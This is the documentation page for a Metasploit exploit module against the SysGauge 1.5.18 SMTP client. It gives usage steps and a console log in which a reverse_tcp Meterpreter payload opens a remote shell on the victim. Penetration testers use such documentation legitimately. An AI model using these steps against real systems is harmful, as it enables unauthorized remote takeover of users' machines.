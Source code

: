 ## Vulnerable Application

  This module will setup a SMTP server expecting a connection from SysGauge 1.5.18
via its SMTP server validation. The module sends a malicious response along in the
220 service ready response and exploits the client resulting in an unpriviledged shell.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/smtp/sysgauge_client_bof```
  4. Do: ```set payload windows/meterpreter/reverse_tcp```
  5. Do: ```set LHOST ip```
  6. Do: ```run```
  7. The user should put your `SRVHOST` or other applicable IP address in the SMTP configuration
in the program, and hit the "Verify Email ..." button.
  8. You should get a shell.

## Scenarios

  Here is how to typically execute the module. Note that the client must input this SMTP server
  information under SysGauge Options and hit the "Verify Email ..." button.

  ```
  msf > use exploit/windows/smtp/sysgauge_client_bof
  msf exploit(sysgauge_client_bof) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(sysgauge_client_bof) > set lhost 10.0.0.1
  lhost => 10.0.0.1
  msf exploit(sysgauge_client_bof) > exploit
  [*] Exploit running as background job.
  msf exploit(sysgauge_client_bof) >
  [*] Started reverse TCP handler on 10.0.0.1:4444
  [*] Server started.
  [*] Client connected: 10.0.0.128
  [*] Sending payload...
  [*] Sending stage (957487 bytes) to 10.0.0.128
  [*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.128:49165) at 2017-03-14 23:15:04 -0500
  ```
